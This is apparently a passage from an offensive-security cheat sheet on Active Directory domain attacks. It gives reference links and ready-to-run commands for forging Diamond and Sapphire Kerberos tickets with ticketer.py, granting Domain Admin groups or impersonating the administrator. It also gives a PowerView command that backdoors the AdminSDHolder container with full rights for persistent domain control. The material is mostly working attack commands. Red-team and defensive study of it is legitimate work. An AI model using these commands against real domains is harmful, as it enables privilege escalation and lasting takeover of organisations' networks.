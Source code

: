 


## Diamond Ticket

- [https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/](https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/)
- [https://thehacker.recipes/ad/movement/kerberos/forged-tickets/diamond](https://thehacker.recipes/ad/movement/kerberos/forged-tickets/diamond)

```
$ ticketer.py -request -user lowpriv -password 'Passw0rd!' -domain megacorp.local -domain-sid S-1-5-21-4266912945-3985045794-2943778634 -aesKey <AES_KEY> [-groups '512,513,516,518,519,520'] [-user-id 1337] [-duration 3650] snovvcrash
```




## Sapphire Ticket

- [https://thehacker.recipes/ad/movement/kerberos/forged-tickets/sapphire](https://thehacker.recipes/ad/movement/kerberos/forged-tickets/sapphire)
- [https://pgj11.com/posts/Diamond-And-Sapphire-Tickets/](https://pgj11.com/posts/Diamond-And-Sapphire-Tickets/)

```
$ ticketer.py -request -user lowpriv -password 'Passw0rd!' -impersonate administrator -domain megacorp.local -domain-sid S-1-5-21-4266912945-3985045794-2943778634 -aesKey <AES_KEY> administrator
```




## AdminSDHolder Modification

* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)
* [https://attack.stealthbits.com/adminsdholder-modification-ad-persistence](https://attack.stealthbits.com/adminsdholder-modification-ad-persistence)
* [https://pentestlab.blog/2022/01/04/domain-persistence-adminsdholder/](https://pentestlab.blog/2022/01/04/domain-persistence-adminsdholder/)
* [https://petri.com/active-directory-security-understanding-adminsdholder-object/](https://petri.com/active-directory-security-understanding-adminsdholder-object/)



### Create a Backdoor

Add a new domain user or grant an existent user `GenericAll` permissions for the `AdminSDHolder` container:

```
PV3 > Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=megacorp,DC=local" -TargetDomain megacorp.local -PrincipalIdentity snovvcrash -PrincipalDomain megacorp.local -Rights All -Verbose
```
